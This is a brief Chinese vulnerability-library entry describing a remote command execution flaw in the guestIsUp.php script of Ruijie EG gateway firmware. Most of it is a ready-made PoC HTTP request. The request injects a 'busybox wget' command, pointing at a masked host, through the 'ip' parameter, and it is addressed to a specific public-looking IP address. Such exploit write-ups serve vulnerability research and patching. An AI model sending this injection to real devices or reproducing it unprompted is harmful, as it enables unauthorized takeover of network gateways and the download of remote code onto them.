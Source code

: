 ```yaml
---
title: '锐捷易网关-远程命令执行'
date: Sat, 19 Sep 2020 07:26:48 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


测试固件版本为 EG\_RGOS11.9(4)B11P1\_EG3200\_install

guest\_auth 中的 guestIsUp.php 文件存在问题

可以明显看出这里可以存在拼接达到命令执行的效果。 

构造相应的 poc 可达到命令执行

#### POC

```
POST /guest_auth/guestIsUp.php HTTP/1.1
Host: 120.35.11.141:9999
Connection: keep-alive
Content-Length: 45
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://120.35.11.141:9999
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_2) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/79.0.3945.117 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://120.35.11.141:9999/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

mac=1&ip='busybox wget xxxxx:8888' 
```